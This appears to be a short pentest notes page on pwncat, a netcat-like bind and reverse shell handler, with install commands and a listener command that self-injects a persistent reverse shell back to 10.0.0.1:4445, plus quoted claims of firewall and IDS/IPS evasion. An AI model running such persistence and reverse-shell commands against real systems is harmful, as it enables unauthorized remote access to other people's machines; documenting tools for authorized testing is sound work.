 ```yaml
---
category: Uncategorized
tags: []
---
```

https://pwncat.org/
### Pwncat

`pwncat` is a sophisticated bind and reverse shell handler with many features as well as a drop-in replacement or compatible complement to `netcat`, `ncat` or `socat`.

> pwncat is like netcat on steroids with Firewall, IDS/IPS evasion, bind and reverse shell, self-injecting shell and forwarding magic - and its fully scriptable with Python ([PSE](https://github.com/cytopia/pwncat/tree/master/pse))

**Install pwncat**

```bash
# Kali Linux
sudo apt install pwncat

```

```bash
# pip
python3 -m pip install pwncat
```

**Setup a listener with unbreakable shell**
This will search for python on host and make a persistence shell back to you.

```bash
pwncat -l 4444 --self-inject /bin/bash:10.0.0.1:4445+3
```
